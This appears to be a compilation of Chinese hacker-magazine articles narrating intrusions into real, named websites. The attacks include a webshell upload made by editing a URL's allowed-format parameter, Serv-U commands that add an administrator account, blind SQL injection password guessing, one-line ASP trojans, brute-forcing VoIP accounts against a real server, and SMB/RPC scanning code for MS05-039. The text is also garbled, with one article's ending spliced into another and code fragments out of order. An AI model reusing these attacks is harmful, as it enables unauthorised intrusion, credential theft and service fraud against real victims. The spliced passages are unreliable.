在查表的时候，我发现了一个“BBS_AdminUsers”的表，感觉这个应该是论坛管理员的表，查了一下，也暴出了用户名和密码。随便找了一个账号登录，看了一下权限只是个版主，没办法利用。不过我坚信这种开了很多服务的网站肯定会有漏洞，继续找吧。

漫无目的地寻找时，点出来了一个上传文件的页面，如图3所示，于是立刻来了精神。虽然上面写了限制格式，但我还想试一试，找了一个 ASP 木马上传，结果被无情地截了下来。接着又是加点又是加空格，都没有成功。正想放弃之际惊鸿一瞥，看了一下地址，发现了一些可疑之处：`cn.xxxxx.com/uploadfile/uploadhtm.asp?FileSize=5120&Format=gif;jpg;png;swf;rm;ram;mp3&PathFile=game\userupload\uploadfile\2006-7-15-13-52271&FormName=edit&TextName=Image&Pic=`。从中可以看出 `PathFile=` 后面跟的是文件上传目录，`Pic=` 后面将跟的是上传成功的文件名，最重要的是 `Format=` 后面跟的是允许上传格式，和图3中限制的格式是对应的。那我们加一个 ASP 的后缀会变成什么样呢？如图4，多出了一个 ASP。


图3

那我们再来传一个 ASP 木马看看能否成功，如图5所示，HOHO，成功上传了，而且系统还返回了地址。看来只在 URL 里做了过滤，至此网站入侵结束，不过我还想试试能否提权拿下服务器。

打开 WebShell，找到网站所在目录，发现首页居然是 ASPX 格式的，如图6所示。

那我就再上传一个 ASPX 的木马看看吧！因为一般 ASPX 木马的权限要大些。用 WebShell 传上去以后成功解析，这时的权限确实要比 ASP 木马大，CMD 能用了，也能改能删。翻了翻硬盘，发现 Serv-U，这是个好的预兆。


图5


图6

还等什么？赶紧把提权工具弄上去吧，在 CMD 中执行：

```bash
E:\WebRoot\su.exe "net user user pass /add"
E:\WebRoot\su.exe "net localgroup administrators user /add"
```

执行成功并登录了 3389，如图7所示。


图7

服务器的入侵到这里也就结束了，我通过一些低级漏洞，快速地搞定了整个网站。其实入侵也要细心，如果这次没有我那惊鸿一瞥，或许结果就不一样了。同时希望网络管理员能尽职尽责地做好自己的工作，不要让漏洞泛滥。

**脚本小子：** CGI程序曾经辉煌过一段时间，不过现在已经有被PHP和ASP所代替的趋势，但是这并不表示CGI程序就一无是处，腾讯到现在还在使用它来运行网站。就现在而言，针对CGI的安全文章可以说是凤毛麟角，希望这篇文章能够使大家对CGI下的渗透有一个大概的认识。

适合读者：入侵爱好者，脚本爱好者

前置知识：脚本基础知识

## SQL Injection With CGI

### Ultra Threads论坛最新漏洞

文/图 猛撞赢标


UT论坛是典型的LAMP组合（Linux、Apache、MySQL、Perl），其界面简洁，安全性在国内使用的各种论坛里也算得上数一数二的。作为一个WEB安全爱好者，我忍不住想要试试UT论坛的安全性，本文把此次发现漏洞的过程跟各位读者分享，希望能对大家有所帮助。

现在开始我们的探索之旅。不过在看本文之前，需要大家了解一点Linux和Perl的基础知识，因为文章中提到了一些基本的命令，大家可以翻翻Google或者Baidu。

先随便找个UT论坛，用常规方法首先测试SQL注入。用啊D-SQL注入器找了N个网页，都没发现有可注入的地方，手工添加`'`和`and 1=2`也不行，如图1所示，网页都是正常返回。


图1

看来SQL注入没戏了，接下来用X-Scan扫描，也只是得到一些不痛不痒的安全隐患：Wuftp溢出、Apache漏洞等等，并且试验了一下，都没什么效果，估计是误报。

看来只能用最原始的办法了，慢慢读源代码。UT论坛是Perl编写的，而Perl程序的漏洞大多在Open或者System函数的使用中出现。举个例子，假如在Open或System函数中，对打开的文件或命令未做处理的话，我们可以提交一些特殊格式的命令来达到目的，如`Open(IMG,$file_img) or die "Could not Open image because: $!\n";`。假如在`$file_img`文件名中出现`|`字符，脚本就会执行命令，如`$file_img='../bin/ls |'`。

根据以上，我们在本地搭建的论坛环境中输入命令：`grep Open *.cgi |more`，如图2所示。


Cfg_general_x.cgi程序中239行，如图3所示：

```perl
239 open(CONFIG, "$cgi::cgidir/... ")
```

图3

打开的文件名称也不是外面输入的数据（untainted）。再看Post_reply_x.cgi，程序里有上传附件的功能，附件的文件名是外部输入的。来看源程序，如图4所示。

```perl
if ($query->upload('attach')) { ... $q->param(filename('attach')) ... }
```

图4

其中的`$fileName`是外部输入的，我们来看看程序有没有对其做合法性检查，如图5所示。

```perl
my $filedata = $cgi->param('attach');
my $fileName = $cgi->param(filename('attach'));
```

图5

下面几行是对`$fileName`的合法性检查，如图6所示。

```perl
s/[\\\/]+//g;
$fileName =~ s/[^a-zA-Z0-9_.-]//g;
...
```

图6

首先256行去掉`/`和`\`等路径符，只留下文件名；然后257行去掉文件名中非字母、非`.`、非`-`的字符。为了防止上传木马程序，263行对后缀名为ASP、JSP、CGI、PL、PHP的文件进行了处理，将其变为TXT文件。接着看了几个文件都是如此，看来UT对于安全性方面的考虑确实是很周到。

转了一圈，还是想试试SQL注入，主要是因为SQL防不胜防，只要做程序的稍有松懈，漏洞就会迎面而来。简单说一下SQL注入吧，假如某页面的地址为：`http://xx.cn/cgi-bin/board_show.cgi?id=62&age=0`，提交的参数是`id=62,age=0`，到CGI程序中就是`$id=62,$age=0`，在SQL语句中猜测一下大概为：`select * from ut_boards where id=$id and age=$age`。所以假如我们网页中提交的参数手工修改一下，比如“age=0 or 1=1”，那么程序中SQL语句就会变为：`select * from ut_boards where id=62 and age=0 or 1=1;`。这将选出所有`id=62`的数据——可惜UT对这类SQL语句参数做了严格过滤。

作者分析发现字符串变量进入SQL前都经过`Quote()`处理，会在两侧加单引号并转义用户输入的单引号，因此难以直接构造额外SQL命令；整型变量也被`INT`限制。


继续审计源码后，发现`pm_addbuddy_x.cgi`程序较短（约66行），其中对参数处理存在可利用点。


关键逻辑是把用户添加到短消息簿中。文中指出第39行通过`my $userId=$cgi->param('id')`取值后，直接用于第43行SQL：`select userName FROM ut_users WHERE id=$userId`，从而形成注入点。


> 【错误信息】You have an error in your SQL syntax ... near "'" at line 1

由报错确认漏洞存在。接下来通过在`id`参数后附加条件判断密码长度，示例语句：`... and length(password)>15`。


若条件成立则程序正常执行，否则返回“该会员不存在”等错误。文中继续用`length(password)>10`、`length(password)>11`等逐步缩小密码长度范围。

> 【错误信息】该会员不存在。请通知论坛管理员 <webmaster@js.com>。


随后改用字符比较逐位猜解：`left(password,1)>'z'`、`left(password,1)>'g'`、`left(password,1)>'a'`等，通过页面回显判断首字符范围，再逐位推进。

> 提示：两边要加引号，因为是字符比较；且MySQL字符比较不区分大小写，可按小写测试。

文中给出最终示例口令结果（如`aabbcc12345`），说明管理员密码亦可按同法推导；并总结该漏洞使论坛整体安全级别下降。

```perl
my $userId=$cgi->param('id');
my $userId=int($cgi->param('id'));
```

适合读者：入侵爱好者，站长

前置知识：ASP语法

## VIP会员学习成果展

### 入侵浪人下载系统

文/网人（账号VIP）Sindon


某天，朋友突然发Q，说有一位高人在网络上发帖，宣称有本事的人来黑他的网站。一时兴起，就去看了一下，界面很清新，如图1所示。

> inc\inc\Pedowve.asp不是一个有效的路径。确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。\down\inc\conn.asp，行8。

从这里知道他使用的数据库是ASP，那么我们就来看看前台有没有地方可以在数据库中录入一些信息。经过搜索，发现在每个下载页面，都有一个给管理员留言的代码：

```asp
UserMessage=Request.Form("UserMessage")
Name=Trim(Request.Form("Name"))
Oicq=Trim(Request.Form("Oicq"))
Email=Trim(Request.Form("Email"))
content=Trim(Request.Form("content"))
SoftID=Request.Form("SoftID")
SoftName=Request.Form("SoftName")
CateID=Request.Form("CateID")
SubCateID=Request.Form("SubCateID")
UserIP=Request.ServerVariables("REMOTE_ADDR")
```


首先自然要看看有没有注入漏洞，在连接后加上……结果跳转……果然有防注入。等等，他跳转到的并不是他的网站，而是跳到了一个叫做“浪人下载”的网站。浪人下载是目前一个非常流行的下载系统，于是Down下代码进行分析。其中Conn的代码如下。

这里的所有信息都是直接从表单上获得，除了过滤空格外，没有进行其他的过滤，于是这里便可以插入一句话木马，如图2所示。在这里填写我们久违的小马，接下来就是用客户端访问了，连接成功，如图3所示。上传小马成功，当然大马也就没有问题了，如图4。


```asp
<%@LANGUAGE="VBSCRIPT"%>
<%
option explicit
dim conn,connstr,db
db="inc/Down.mdb"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
conn.Open connstr
function CloseDataBase
  conn.close
  Set conn=Nothing
End Function
%>
```

很明显，没有处理错误跳过，可以暴露出数据库路径。于是访问他的网站：http://***/inc/conn.asp，好家伙，暴库了：

> Microsoft JET Database Engine 错误 '80004005' ...


适合读者：入侵爱好者，脚本爱好者

前置知识：无

## 躺在前人一句话木马的肩膀上前进

文/图 冯涛


近日家中新增一台DVD，重新勾起了本人“卡拉OK”的强烈欲望，于是想从网上下载MTV歌曲伴奏。Google了一下，找到一个收藏丰富、使用方便的网站Ktvvcd.com，首页如图1所示。

测试了Ktvvcd.com网站的多个链接，发现安全方面做得不错，暴数据库路径和SQL注入都无法成功。再猜一下管理后台，确有Admin目录，但不知道登录页名。尝试常见后台管理网页如Logout.asp、Edit.asp、User.asp等，发现会自动转回Login.asp。


图1

兴致勃勃地注册后，发现能够下载的MTV实在是少得可怜，除非再升级为更高权限的黄金会员。可是升级要Money啊，我只是想即兴“卡拉OK”几宿，仅为这而办个包月包年的会员好像不值。

管理员为了安全，删除了Login.asp。再检查网站提供的几个栏目，有一个论坛和一个留言板。论坛虽然已被管理员改了版权信息，但从网页路径和名字上看，应该是雷傲LeoboBS_X Build05123，是CGI的，而且官方公布过的漏洞都已打好了补丁。

剩下的目标就是留言板了。留言板做得很清爽，并且自动设为悄悄话功能，无法查看到有价值的信息，如图2所示。


图2

我仔细查看后，发现它与网站首页的风格不太一致，所以可以大胆猜测：留言板是外挂的源码。经验告诉我们，外挂的东西虽然使用方便，但如果有漏洞，则很容易被发现。看来这次测试的最终目标就是它了，先想办法下载源码研究一下再说。

要下载这套程序，就得先知道这个留言板叫什么名字，而管理员已经将版权信息删得干干净净，没有留下任何对我们有用的信息。只能慢慢找了。先查看一下这个留言板所用到的图片：找一个名字起得比较特别的“lwcontent.gif”，然后打开Google来一番图片搜索，居然还真有十几个网站用到了这个名字的图片。不负我所望，得到留言板的名字“超略数字留言本 V2.5”，是37biz.com出品的，不过网站已经消失了，而大多下载站点也不提供它的下载。对于这样一款比较老的留言板，我们没有办法了？

其实我们还有一个办法，就是再“破”一个使用“超略数字留言本”的网站，拿下它的留言板源代码。从Google的图片搜索结果中，发现wf-kite.com的安全性相对低一些，那么就从它入手吧。

攻破网站wf-kite.com很容易，它有SQL注入漏洞，而且很容易也找到了管理后台漏洞，具体的步骤就不赘述了。最后通过上传WebShell，下载了“超略数字留言本”的所有相关文件。

事情进行到这里好像比较顺利，不过“超略数字留言本”本身有没有漏洞，网站ktvvcd.com对留言板有没有做过防范还是未知之数，现在只能走一步看一步了。

经过分析“超略数字留言本”的源代码，发现它的数据库存在于Data目录下，名字叫Database.asp。它的留言内容过滤不严，数据未经HTML编码直接存入了数据库中，我们完全可以利用数据库形成一个WebShell。

再次上网打开网站Ktvvcd.com，进入留言板栏目，直接输入`http://www.Ktvvcd.com/lyb/data/database.asp`尝试下载数据库，但提示“无法显示网页”。难道数据库改了名字？再研究一下手中“超略数字留言本”连接数据库文件Inc_connect.asp的源代码：

```asp
<%
Dim db,conn,connstr,sql,rs
db="data/database.asp"
'请将“gb.asp”替换为你自己重命名后的数据库地址，切记！
Set conn=Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
conn.open connstr
%>
```

第二行代码后面的注释“请将‘gb.asp’替换为你自己重命名后的数据库地址，切记！”。想来原始的数据库应该名叫“gb.asp”。我下载的这套源码看来是修改版，既然如此，那目标网站Ktvvcd.com的数据库名是不是没有改过名字呢？

我试着在IE地址栏输入`http://www.Ktvvcd.com/lyb/data/gb.asp`，这回有了反应，IE显示出了一堆乱码，但是半途却中断了下来，如图3所示。

> 系统提示：  
> Microsoft VBScript 运行时错误 '800a000d'  
> 类型不匹配: 'execute'  
> /lyb/data/gb.asp，行2963

看现象，不像是做了防下载处理，更像是之前有人加过一句话木马而出错的样子。由于有这个断点的存在，我再添加新的木马也没有用了，只能利用这个环节进行入侵，但前提是找到它的口令（即Request里的字符）。猜猜这个一句话木马的口令是什么呢？


我将IE中这部分残缺的数据用“另存为”的方式存成了本机一个叫Gb.mdb的文件。Access无法打开它，会提示文件已损坏。我用UltraEdit以二进制方式打开了它，希望能在里面发现一些有用的信息。

由于数据是在Execute处中止的，所以一句话木马的口令不可能在这个残缺的数据库里找到，但是留言板管理员的口令却有可能找到。因为手里有“怀璧其罪”的网站中下载到的数据库，从而发现留言板管理员的口令是以明码形式保存的。

用UltraEdit打开Gb.mdb，查找到留言板管理员的用户名“ktvmtv”，如图4所示。


那么，后面的“qahgwq”就很有可能是口令了。进入网站Ktvvcd.com留言板首页，在密码处输入“qahgwq”，成功登录！所有的留言都可以看到了，如图5所示。


图4

如图所示，后来在官方网站直接进行测试，居然也拿下了。无语。

当然，如果管理员疏忽，数据库是MDB格式的话，只需要下载数据库，然后到www.xmd5.org去破解一下MD5加密的密码，然后登录后台就可以轻松获得权限了。

仔细分析这次入侵的过程，首先是寻找程序，然后是分析代码，再进行实际测试。入侵的关键在于暴库和后面的过滤不严谨。其实只要在Conn.asp中加上“On Error Resume Next”就可以防止暴库了；接着是在Message.asp的地方加上过滤。仔细发现，所有留言在前台是不会显示的，很多程序员认为只有管理员能看到这个留言，没有必要过滤，其实是不对的。

本人才疏学浅，初次投稿，希望读者朋友们看完后有些收获，欢迎到黑防公共论坛与我交流讨论。

## 另类破解让你免费打电话

适合读者：网络爱好者  
前置知识：无  

文/图 Pity570

网上的免费电话多种多样，相信不少朋友都用过。在我用过的网络电话中，比较好一点的要数 RedVIP 了。如图1所示，不但音质好，而且单次注册还可以获得 30 分钟的通话时间，不过用完就要购买其服务了。自从黑防发表了我的《中国移动短信免费发》之后，心里就一直想对 RedVIP 进行一下破解测试。不过本人菜，技术有限，入侵服务器是别想了，还是看看我是怎么另类破解的吧。今天正好有机会，开工！

我们首先到官网（http://www.redvip.net）。主页有注册提示，但我们不在这里注册，先下载绿色安装版。至于为什么不在网站注册，稍后我们会进行说明。解压后运行 vip.exe 并注册 VIP 号码，如图2所示。不过在注册之前，我们要先打开 Winsock Expert，新建一个监听，如图3所示。好了，现在我们先用自己的手机注册业务，监听返回的信息，如图4所示。这些信息分别为注册 RedVIP 的登录号码、MD5 加密的登录密码和验证码等。大家注意监听信息里的 g_State=0 值。接下来用我们申请的号登录并开启监听，返回信息如图5所示，这些信息包括注册者的注册时间、注册手机、登录 IP 和 ID 号码。

到此为止，主要的信息我们已经获得。接下来要做的就是登录一个并不存在的号码，看看我们能截取到什么信息。重复打开 RedVIP，这次直接构建一个号码进行登录，看看监听的数据是否对我们有用，如图6所示。是不是觉得有些眼熟？对了，就是 g_State=error_ips_100 和我之前让大家注意的 g_State=0 有所区别。是不是觉得有些眉目了呢？事实上，服务器是通过验证网页返回的 g_State 的值来判断用户的存在与否的。只有当 g_State=0 时，才证明用户已经存在于服务器上。

同时，我发现 RedVIP 提交验证的服务器地址为 211.152.49.90，而网站的服务器地址为 211.152.49.89。我试着在网站注册并截取信息，但返回信息和软件注册返回的信息并不一致，不知道是不是我个人操作的原因。所以在文章的开头，我选择让大家通过软件注册而不是网站。好了，既然验证机制已经差不多知道了，接下来就可以自己构建网页验证地址并提交给服务器。

> 通过“搜索留言”功能搜索关键字“execute”，找到了一句话木马：`<%execute request("*")%>`，从而知道了一句话木马的口令“*”。

剩下的事情就容易了，利用这个一句话木马生成一个设置版主 Session 值的网页 SetAdmin.asp 来代替被删除的 Login.asp 页面，通过先访问 SetAdmin.asp，再访问查到的管理平台页面 Admin1.asp，成功将自己的账号提升为黄金会员！最后帮助网站修补好了留言板的漏洞。整个提权权限的过程就像运行一个递归程序，解决问题中不断遇到新问题，直到攻克了最后问题后再一步步退回到最初的问题。希望这次的渗透过程能给大家提供新的入侵思路。

图6

```
http://211.152.49.90/http_request/http_redvip.php?wz_OperateMethod=12&wz_AccountPhoneNumber='ID号码'&wz_Add=用户密码MD5加密值
```

返回用户分组信息。好了，提交地址我们已经知道了，那么我们该怎么利用呢？况且密码不但不知道，而且还是 MD5 加密过的。我的思路：一是用固定密码的 MD5 值扫描不同 ID 号码；二是 RedVIP 支持手机号作为 ID 进行登录，所以我们也可以用该手机号作为密码进行扫描。比如定义 ID 号码值为 USERID，建立 userid.txt 文件；定义用户密码 MD5 加密值为 PASS，建立 pass.txt 文件。

```
http://211.152.49.90/http_request/http_redvip.php?wz_OperateMethod=12&wz_AccountPhoneNumber=USERID&wz_Add=PASS
```

通过调用不同信息返回服务器验证（也可以用一些扫描软件辅助扫描），很快就可以得到有效的用户信息。我运气还不错，扫到了用户名和密码相同的一些用户的信息。这直接证明了该方法的可行性。

```
http://211.152.49.90/http_request/http_redvip.php?wz_OperateMethod=12&wz_AccountPhoneNumber='ID号码'&wz_Add=用户密码MD5加密值

说明提交服务器验证。

http://211.152.49.90/http_request/http_redvip.php?wz_OperateMethod=11&wz_AccountPhoneNumber='ID号码'&wz_Add=用户密码MD5加密值

返回该用户的所有注册资料。
```

## 防止密码MD5值被破解

### 破解妙招

文/图 奚伟

适合读者：网站管理员、入侵爱好者  
前置知识：无

现在的站点当中有很多密码都是经过 MD5 加密的，有很多人认为经过 MD5 加密后的密码就是安全的，即使密码 MD5 值被暴露也无所谓。殊不知有很多站点都能够对 MD5 值进行穷举解密，这些站点能够在瞬间还原 10 位以下字母+数字+字符组合的密码。下面我就教大家一招防止 MD5 值被破解的妙招。原理很简单，把 MD5 加密后的字符调换位置即可防止被破解。

```vb
Function ywSWAP(sMessage,a,b)
  ' a 是源位置，b 是目标位置
  Dim tempmd5
  tempmd5=sMessage
  sfirst=mid(tempmd5,a,1)
  bfirst=mid(tempmd5,b,1)
  tempmd5=left(tempmd5,a-1)&bfirst&mid(tempmd5,a+1,len(tempmd5))
  tempmd5=left(tempmd5,b-1)&sfirst&mid(tempmd5,b+1,len(tempmd5))
  ywSWAP=tempmd5
End Function
```

```vb
Function ywMD5(sMessage)
  Dim tempmd5
  tempmd5=MD5(sMessage)
  ywMD5=ywSWAP(tempmd5,3,16)
  ywMD5=ywSWAP(ywMD5,13,16)
  ywMD5=ywSWAP(ywMD5,4,7)
  ywMD5=ywSWAP(ywMD5,8,5)
  ywMD5=ywSWAP(ywMD5,6,11)
End Function
```

再添加 ywMD5 过程，其代码如下。比如要加密 admin888，以前是调用 MD5("admin888")，现在则调用 ywMD5("admin888")。交换前后得到不同的 32 位结果。经过位置互换后的 MD5 值看上去还是很像 MD5 值，但是“本质”已经完全变了。大家还可以充分发挥想象，把 MD5 值变来变去。

## 菜鸟版Exploit编写指南之十九：溢出漏洞扫描技术

适合读者：溢出研究者，系统安全研究者  
前置知识：C/C++基础  

文/图 曹军 / dangguai27

写了多篇溢出技术方面的文章，内容更多的是涉及漏洞调试、分析利用以及纯粹的 ShellCode 编写技巧。其实要掌握好一个溢出漏洞，漏洞的扫描技术也是同样重要的。本文我将和大家一起来简单讨论一下常见的溢出漏洞扫描技术，并结合新老两个漏洞例子——SQL Resolution 溢出漏洞和 PNP 溢出漏洞（MS05-039）分别讲解。

### Windows下溢出漏洞扫描方法

- 检测服务端口开放与否：向目标端口发送 SYN 等探测数据包，根据响应判断漏洞可能性。
- 获取服务软件 Banner 信息：依据版本信息判断是否可能存在对应漏洞。
- 直接爆破：将直接攻击作为扫描方式，成功则说明存在漏洞（风险较高，可能导致服务异常）。
- 根据打补丁前后响应报文差异进行判断：通过应用层协议细节与返回内容差异分析漏洞存在性。

```cpp
// 连接目标机器808端口
SOCKET csock;
csock = socket(AF_INET, SOCK_STREAM, 0);
sockaddr_in target;
target.sin_family = AF_INET;
target.sin_addr.s_addr = dwDestIp;
target.sin_port = htons(808);
int ret = connect(csock, (sockaddr *)&target, sizeof(target));
if (ret == 0) {
    printf("CCProxy漏洞\n");
}
```

这部分做得不好的话，是写不出有效的 Client 的。更多时候我们很难清楚了解服务软件内部机制，特别是对于微软的一些服务软件。可以通过逆向、跟踪分析网络数据包等方式还原工具逻辑。

### SQL和PNP漏洞扫描代码实现

#### 1. SQL Resolution溢出漏洞扫描代码的实现

SQL Server 2000 SP2 及以前版本中的 Resolution 服务存在漏洞。向 UDP 1434 端口发送特定报文可获得实例信息；若发送超长或特定格式错误请求可能触发堆栈溢出。下面通过截获数据包并分析实现扫描。

获取服务软件 Banner 信息。通过客户端与服务端连接过程中返回的 Banner 内容（如版本号）判断漏洞存在可能性；该方法常用但准确率有限，因补丁和版本差异会影响判断。

分析我们发现，在打补丁前后，向服务进程发送错误请求（0x0a 开头的）后，返回的报文内容是不一样的；如果仍然返回以 0x0a 开头的报文，则证明是存在漏洞的；否则不存在漏洞。主要代码如下：

建立空连接：

```c
// 探测线程函数
UINT ListenThreadProc(LPVOID pPram)
{
    TotalParam *tp;
    tp = (TotalParam*)pPram;
    SOCKADDR_IN Udpfrom;
    int UdpfromLen = sizeof(Udpfrom);
    // 下面发送请求数据，以"\x0a"开头
    tp->bufSend[0] = '\x0a';
    int iError;
    if(sendto(tp->sock, tp->bufSend, sizeof(tp->bufSend), 0,
      (sockaddr*)&tp->addr_in, sizeof(tp->addr_in))
      == SOCKET_ERROR)
    {
        iError = WSAGetLastError();
        return 1;
    }

    // 接收返回报文
    while(true)
    {
        memset(tp->bufRecv, 0, sizeof(tp->bufRecv));
        int n = recvfrom(tp->sock, tp->bufRecv, sizeof(tp->bufRecv), 0,
            (sockaddr*)&Udpfrom, &UdpfromLen);
        if(n > 0 && tp->bufRecv[0] == '\x0a')
        {
            tp->IsVulnerable = true;
            break;
        }
    }
    return 0;
}
```

这个漏洞的扫描代码实现起来很简单，大家可以直接提取上面的代码。

下面再看一个复杂一点的漏洞——Windows 2000 的 PNP 溢出漏洞（MS05-039）。Windows 2000 及以上版本的 PNP（Plug and Play）服务是通过 IPC$ 命名管道 + RPC 接口的形式向外提供服务的。也就是说，我们要访问远程机器上的 PNP 服务，首先要通过 TCP 139 或 445 端口与目标机器建立 IPC 空连接，进而获取 PNP 服务进程中创建的命名管道“Browser”的客户端句柄。获取了管道句柄后，再通过该命名管道与 PNP 服务进程中的 RPC 接口进行通信，完成对服务的访问。在对 PNP 漏洞进行攻击的时候，我们是采用这样一个通信流程，在漏洞扫描的时候我们也可以按照这样一个步骤。由于我对 SMB 和 RPC 协议暂时还没有完全分析清楚，所以填充的应用层数据包也是直接从网络数据包中截获而来，而这些数据包正是在分析 Mcfee 公布的扫描工具时碰撞到的。通过分析，发现打补丁前后返回数据报内容刚好存在一个字节的差别。呵呵，还原漏洞扫描代码就易如反掌了。下面给出部分代码：

建立空连接：

```c
SOCKET ClientSock;
sockaddr_in ClientAddr;
int len;
unsigned char szRecv[0x1000] = {0};

ClientSock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
ClientAddr.sin_family = AF_INET;
ClientAddr.sin_port = htons(445);
ClientAddr.sin_addr.S_un.S_addr = inet_addr(argv[1]);
printf("[*] Connecting to 445 ... ");

// 先连接445端口，如果不成功，则连接139
if(connect(ClientSock, (const sockaddr*)&ClientAddr, sizeof(ClientAddr)) < 0)
{
    printf("[*] Connecting to 445 ... ");
    ClientAddr.sin_port = htons(139);
    if(connect(ClientSock, (const sockaddr*)&ClientAddr, sizeof(ClientAddr)) < 0)
    {
        printf("Can't create NULL session\n");
        return -1;
    }
}

// 发送72字节的reqNBSS
if(send(ClientSock, (const char*)reqNBSS, sizeof(reqNBSS)-1, 0) < 0)
{
    printf("[-] Send reqNBSS failed\n");
    closesocket(ClientSock);
    return -1;
}

len = recv(ClientSock, (char*)szRecv, sizeof(szRecv)-1, 0);
if(len < 0)
{
    printf("2\n");
    closesocket(ClientSock);
    return -1;
}

// 发送SMB_Negotiate
if(send(ClientSock, (const char*)SMB_Negotiate, sizeof(SMB_Negotiate)-1, 0) < 0)
{
    printf("\n[-] send SMB_Negotiate failed\n");
    return -1;
}

len = recv(ClientSock, (char*)szRecv, sizeof(szRecv)-1, 0);
if((len <= 10) || (szRecv[9] != 0))
{
    printf("3\n");
    return -1;
}

// 发送SMB_SessionSetupAndX
if(send(ClientSock, (const char*)SMB_SessionSetupAndX, sizeof(SMB_SessionSetupAndX)-1, 0) < 0)
{
    printf("\n[-] send SMB_SessionSetupAndX failed!\n");
    return -1;
}

// 发送 SMB_TreeConnectAndX
if(send(ClientSock, (const char *)SMB_TreeConnectAndX, sizeof(SMB_TreeConnectAndX), 0) < 0)
{
    printf("\n[-] send failed\n");
    return -1;
}
```

这里，我将建立 IPC 空连接的过程按照 SMB 协议分别写出，而没有直接用 WNetAddConnection2 函数的原因有两个：1 是 WNetAddConnection2 函数只连接 445 端口，如果连接失败不再尝试连接 139 端口；2 是我发现用 WNetAddConnection2 建立空连接后，代码在访问命名管道的时候会出错。

获取管道客户端句柄：

```c
char szPipe[MAX_PATH];
HANDLE hFile;

// 打开命名管道 "\\server\\pipe\\browser" 客户端句柄
snprintf(szPipe, sizeof(szPipe), "\\\\%s\\pipe\\browser", argv[1]);
hFile = CreateFile(szPipe, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
if(hFile == (HANDLE)(-1))
{
    printf("can't find named pipe\n");
    return -1;
}
```

接下来就是访问 RPC 接口了，RPC 接口是需要先 Bind 后发送请求的。

```c
// BIND rpc接口
if(!BindRpcInterface(hFile, "8d9f4e40-a03d-11ce-8f69-08003e30051b", "1.0"))
{
    printf("can't get namedpipe! %d\n", GetLastError());
    return -1;
}
```

BindRpcInterface 函数实现为：

```c
BOOL BindRpcInterface(HANDLE PH, char *interface, char *interfaceVer)
{
    ...
}
```

```c
BYTE rbuf[0x1000];
DWORD dw;
struct RPCBIND RPCBind;
BOOL bRet;

memcpy(&RPCBind, &PRPC, sizeof(RPCBind));
UuidFromString((unsigned char *)interface, &RPCBind.InterfaceUUID);
UuidToString(&RPCBind.InterfaceUUID, (unsigned char **)&Interface);
RPCBind.InterfaceVerMaj = atoi(&InterfaceVer[0]);
RPCBind.InterfaceVerMin = atoi(&InterfaceVer[2]);
bRet = TransactNamedPipe(PH, &RPCBind, sizeof(RPCBind), rbuf, sizeof(rbuf), &dw, NULL);
return bRet;
```

最后进行漏洞判断：

```c
// 发送请求RPC request包
BOOL ret = ScanPNP(hFile);
```

ScanPNP 实现细节：

```c
BYTE rbuf[0x100] = {0};
DWORD dw;
if(!TransactNamedPipe(PipeHandle, szScan, sizeof(szScan), rbuf, sizeof(rbuf), &dw, NULL))
{
    printf("Can't get scan data!\n");
    return FALSE;
}
if(dw != 0x48)
{
    return FALSE;
}
if(rbuf[0x44] != 0x0b)
{
    // 大家都看，就这一个字节的差别
    return FALSE;
}
return TRUE;
```

代码中用到的 SMB 和 RPC 协议数据，以及完整的扫描代码我会和文章附在一起，大家可以看看。

### 小结

好了，本文和大家一起讨论溢出漏洞的扫描，写得比较杂乱，但也希望对大家学习有点帮助。同时我也感谢前辈的技术分享精神和热心帮助，使我对 SMB 协议、RPC 协议以及 TCP/IP 协议栈的认识比以前有了较大的提高。最后欢迎大家和我交流。

- 适合读者：溢出爱好者，系统安全爱好者  
- 前置知识：Win32 溢出基础

## 菜鸟版Exploit编写指南之二十八

## Word 溢出漏洞分析与利用

文/图：曾军 / dangguai27

众所周知，溢出漏洞从应用形式上可分为远程服务溢出漏洞和客户端（本地）溢出漏洞两类……前段时间由于工作要求，我需要对 Word 2000 解析 doc 文件格式时存在的溢出漏洞进行分析与利用……希望朋友们看了之后能有所收获。

## 2 实现成形 Exploit——无功而返

首先还是看看漏洞公告吧（如图1所示）……Word 在解析 doc 文件时未对宏名称进行长度检测，导致缓冲区溢出……我一向采取先解决问题（找 Exploit）有空再深入研究的方式。

> Word 存在一个安全漏洞允许恶意代码被执行。问题存在于 Word 在检查嵌入到文档中的宏名称数据长度时缺少正确的边界缓冲区检查……如果成功，攻击者可以以用户权限增加、更改或删除文件数据，或导致站点交互被扰乱。

| 产品 | 严重程度 |
|---|---|
| Microsoft Excel 97 | Important |
| Microsoft Excel 2000 | Important |
| Microsoft Excel 2002 | Important |
| Microsoft Word 97 | Important |
| Microsoft Word 98(J) | Important |
| Microsoft Word 2000 | Important |
| Microsoft Word 2002 | Important |

图1

一话不说，打开 Google，输入漏洞关键字，如图2所示。图2

在搜索结果中的众多 URL 中一一浏览，发现这些 URL 几乎全是关于漏洞概述的，不要说 Exploit，连 doc 样本文件都找不到一个……我决定自己分析这个漏洞。既然该漏洞是在 Word 解析 doc 文件宏名称时发生溢出，那就从构造超长宏名称开始……下面内容是在 Windows 2000（或 XP SP2）+ Word 2000 平台上进行的。

## 3 解 Word 宏机制——测试未果

大概从 Word 97 开始，就提供了宏机制。宏是完成一定功能命令的集合……Word 宏是使用 VBA 来编写的，目的是使用户能在 Word 中编写完成指定功能的代码。

VBA 具体语法和 VB 一样，我们可以在编写宏的时候调用 Windows API，但有些函数 VB 中没有。宏病毒就是利用宏复制语句来达到感染的目的。宏有两种存储形式：一种是存储 doc 模板文件中（Normal.dot），而另一种则存储在单个 doc 文件中。

我们还是来看如何使用宏。打开 Word 2000，创建 doc 文档并保存为 test.doc，然后点击“工具 -> 宏 -> 宏”（或者按 Alt+F8）调出宏，如图3所示。图3

我们先来尝试新建一个宏。在“宏名”中输入任意名称，必须以字母开头；在“宏的位置”中选择 test.doc，然后点击“创建”，调出 VBA 编辑器。这里的代码只调用 API MsgBox 函数作测试，如图4所示。图4

保存以后，运行，弹出了对话框，如图5所示。图5

